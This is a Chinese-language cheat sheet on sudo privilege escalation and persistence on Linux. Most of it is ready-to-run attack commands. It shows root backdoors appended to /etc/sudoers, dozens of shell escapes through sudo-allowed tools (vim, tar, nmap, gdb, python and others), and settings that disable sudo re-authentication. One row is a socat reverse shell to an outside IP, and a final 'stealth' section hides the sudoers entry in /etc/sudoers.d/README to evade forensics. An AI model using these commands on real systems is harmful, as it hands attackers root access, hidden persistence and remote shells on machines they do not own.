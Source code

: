 # sudo提权

基本上都要动/etc/sudoers，很容易在取证时被发现。

## sudo配置不当

| 命令                                                         | 类型             |
| ------------------------------------------------------------ | ---------------- |
| root:  echo "aplyc1a ALL=(root) ALL" >> /etc/sudoers         | sudo配置不当提权 |
| root:  echo "aplyc1a ALL=(ALL:ALL) ALL" >> /etc/sudoers      | sudo配置不当提权 |
| root:  echo "aplyc1a ALL=(ALL:ALL) NOPASSWD:/usr/bin/vi" >>  /etc/sudoers | sudo配置不当提权 |

## sudo命令提权

```shell
echo "aplyc1a ALL=(root) NOPASSWD:/usr/bin/*,/usr/sbin/*" >>  /etc/sudoers
```

| 命令                                                         | 类型         |
| ------------------------------------------------------------ | ------------ |
| aplyc1a: sudo zip ./7.zip /tmp -T  --unzip-command="sh -c /bin/bash" | sudo命令提权 |
| aplyc1a: sudo tar cf /dev/null  test.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash | sudo命令提权 |
| aplyc1a: sudo more  /etc/rsyslog.conf<br>!/bin/bash          | sudo命令提权 |
| aplyc1a: sudo less  /etc/rsyslog.conf<br/>!/bin/bash         | sudo命令提权 |
| aplyc1a: sudo man ssh<br/>!/bin/bash                         | sudo命令提权 |
| aplyc1a: sudo ftp<br/>!/bin/bash                             | sudo命令提权 |
| aplyc1a: sudo vim -c '!sh'                                   | sudo命令提权 |
| aplyc1a: sudo vim<br/>:set shell=/bin/bash<br/>:shell        | sudo命令提权 |
| aplyc1a: sudo find /bin name . -exec '/bin/bash' \;          | sudo命令提权 |
| aplyc1a: echo "os.execute('/bin/bash')" > /tmp/shell.nse<br/>aplyc1a: sudo nmap --script=/tmp/shell.nse | sudo命令提权 |
| aplyc1a: sudo git help status<br/>!/bin/bash                 | sudo命令提权 |
| aplyc1a: sudo passwd                                         | sudo命令提权 |
| aplyc1a: sudo awk 'BEGIN{system("/bin/bash")}'               | sudo命令提权 |
| aplyc1a: sudo /usr/bin/python -c 'import  pty;pty.spawn("/bin/bash")' | sudo命令提权 |
| aplyc1a: sudo bash                                           | sudo命令提权 |
| aplyc1a: sudo csh -b                                         | sudo命令提权 |
| aplyc1a: sudo dmesg -H     !/bin/sh                          | sudo命令提权 |
| aplyc1a: sudo env /bin/sh -p                                 | sudo命令提权 |
| aplyc1a: sudo flock -u / /bin/sh -p                          | sudo命令提权 |
| aplyc1a: sudo gdb -nx -ex 'python import  os;os.execl("/bin/sh","sh","-p")' -ex quit | sudo命令提权 |
| aplyc1a:sudo ed     !/bin/sh -p                              | sudo命令提权 |
| aplyc1a:sudo expect -c 'spawn /bin/sh -p; interact'     !/bin/sh -p |              |
| aplyc1a:sudo ionice /bin/sh -p                               | sudo命令提权 |
| aplyc1a:sudo ip netns add foo<br/>aplyc1a:sudo ip netns exec foo /bin/sh -p<br/>#sudo ip netns delete foo | sudo命令提权 |
| aplyc1a:sudo ksh -p                                          | sudo命令提权 |
| aplyc1a:sudo logsave /dev/null /bin/sh -i -p                 | sudo命令提权 |
| aplyc1a:COMMAND='/bin/sh -p'<br/>aplyc1a:make -s --eval=$'x:\n\t-'"$COMMAND" | sudo命令提权 |
| aplyc1a:sudo nano<br/>ctrl R<br/>CTRL X<br/>reset;sh -p 1>&0 2>&0 | sudo命令提权 |
| aplyc1a:sudo nice /bin/sh -p                                 | sudo命令提权 |
| aplyc1a:CMD="/bin/sh"<br/>aplyc1a:sudo php -r "pcntl_exec('/bin/sh', ['-p']);" | sudo命令提权 |
| aplyc1a: sudo rpm --eval '%{lua:os.execute("/bin/sh -p")}'   | sudo命令提权 |
| aplyc1a: sudo rsync -e 'sh -p -c "sh -p 0<&2 1>&2"'  127.0.0.1:/dev/null | sudo命令提权 |
| aplyc1a: setarch $(arch) /bin/sh -p                          | sudo命令提权 |
| attacker: socat file:'/dev/tty',raw,echo=0 tcp-listen:8888<br/>aplyc1a: sudo socat tcp-connect:87.65.43.21:8888 exec:'/bin/sh -p',pty,stderr | sudo命令提权 |
| aplyc1a: sudo ssh -o ProxyCommand=';sh -p 0<&2 1>&2' x       | sudo命令提权 |
| aplyc1a: sudo strace -o /dev/null /bin/sh -p                 |              |
| aplyc1a: sudo stdbuf -i0 /bin/sh -p                          | sudo命令提权 |
| aplyc1a: sudo taskset 1 /bin/sh -p                           | sudo命令提权 |
| aplyc1a: sudo tclsh<br/>aplyc1a: exec /bin/sh -p <@stdin >@stdout 2>@stderr | sudo命令提权 |
| aplyc1a: sudo time /bin/sh -p                                | sudo命令提权 |
| aplyc1a: sudo watch -x sh -c 'reset; exec sh -p 1>&0 2>&0'   | sudo命令提权 |
| aplyc1a: sudo xargs -a /dev/null sh -p                       | sudo命令提权 |
| aplyc1a: sudo zsh                                            | sudo命令提权 |
| aplyc1a: sudo ftp<br/>aplyc1a:!/bin/bash                     | sudo命令提权 |

## sudo缓存提权

| 命令                                                         | 类型         |
| ------------------------------------------------------------ | ------------ |
| root:  echo "Defaults timestamp_timeout=-1" >> /etc/sudoers  | sudo缓存提权 |
| root:  echo "Defaults "'!'"tty_tickets" >> /etc/sudoers      | sudo缓存提权 |
| root:  echo "Defaults:walrus   !authenticate" >> /etc/sudoers | sudo缓存提权 |

## 增强隐蔽性

```shell
echo "aplyc1a ALL=(root) NOPASSWD:/usr/bin/*,/usr/sbin/*" >>  /etc/sudoers.d/README
```





